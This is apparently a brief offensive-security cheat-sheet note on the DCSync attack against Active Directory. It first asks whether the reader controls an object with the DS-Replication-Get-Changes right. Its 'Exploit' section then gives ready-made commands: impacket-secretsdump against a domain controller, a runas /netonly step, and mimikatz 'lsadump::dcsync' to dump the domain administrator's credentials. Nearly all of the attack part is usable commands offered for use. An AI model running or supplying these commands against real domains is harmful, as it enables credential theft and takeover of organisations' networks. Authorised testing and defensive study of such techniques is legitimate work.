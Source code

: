 ```yaml
---
tags:
  - Authenticated
  - DS-Replication-Get-Changes
  - AD
---
```

## Identify
---
Do you control an object with the `DS-Replication-Get-Changes` ACL?
## Exploit
---
```Python
impacket-secretsdump 'domain.local'/'<user>':'<pass>'@'<DC0IP>'
```
**From windows**
```Bash
runas /netonly /user:DOMAIN\user powershell
```
```Bash
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```